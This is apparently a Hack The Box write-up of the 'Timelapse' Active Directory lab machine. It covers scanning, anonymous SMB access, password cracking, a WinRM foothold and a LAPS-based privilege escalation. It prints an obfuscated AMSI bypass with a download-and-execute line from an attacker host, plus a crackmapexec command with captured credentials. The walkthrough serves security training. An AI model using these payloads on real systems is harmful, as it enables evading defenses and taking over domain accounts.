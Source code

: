 ```yaml
---
title: Timelapse
tags:
    - Active Directory
    - "Easy Machines"
categories:
    - "Hack The Box Writeup"
date: 2022-04-05
description: "Hack The Box Machine - Timelapse writeup"
author: "Tejas"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/FOi9TvrXoAUm3zY?format=jpg&name=medium" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Port Scan

```
# Nmap 7.92 scan initiated Mon Apr  4 13:02:28 2022 as: nmap -sC -sV -sS -vvv -oN nmap.txt -p- timelapse.htb
Nmap scan report for timelapse.htb (10.129.128.174)
Host is up, received echo-reply ttl 127 (0.30s latency).
Scanned at 2022-04-04 13:02:29 IST for 560s
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-04-04 15:40:06Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?      syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2022-04-04T15:41:40+00:00; +7h59m58s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
<SNIPED>
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58823/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

<SNIPED>
```

Found no web application, we can see from the nmap scan that the domain name is timelapse.htb and probably this is dc0.

Let’s try to figure out what we can do.

After some time looking at nmap scan, I was wondering why not SMB anonymous. Lets try it 

## SMB ANONYMOUS

![Untitled](images/Untitled.png)

Let’s enumerate them

![Untitled](images/Untitled%201.png)

Let’s download them.

![Untitled](images/Untitled%202.png)

winrm_backup.zip was password encrypted, after doing password cracking using hashcat and JTR to recover encryption cipher. We find `supremelegacy`

The file found inside the archive is .pfx file which can be used to authenticate with winrm or PS-remoting

When I ran strings command against the pfx file, I find the username and email as the following:

```
legacyy@timelapse.htb
Legacyy0
```

## Foothold

It seems we can extract keys from pfx file like this way shown in [article](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file).  Now to follow in accordance to the article, by running first command I’m asked password for importing. So let’s crack hash of pfx file and lets find the password using jtr.

![Untitled](images/Untitled%203.png)

`thuglegacy` is the password.

![Untitled](images/Untitled%204.png)

![Untitled](images/Untitled%205.png)

Found the following stuff in PS-History file

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### AMSI BYPASS

The following payload bypassed AMSI, allowing us to download and import module BloodHound.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8/SharpHound.ps1')
```

## Privilege Escalation

Now we have found svc_deploy credentials, who is part of LAPS_READER group. I can read password of Admin to Privilege escalate.

I used the following command to get LAPS password

```powershell
crackmapexec ldap 10.129.128.174 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.129.128.174 -M laps
```

![Untitled](images/Untitled%206.png)

Flag for root is found in TRX desktop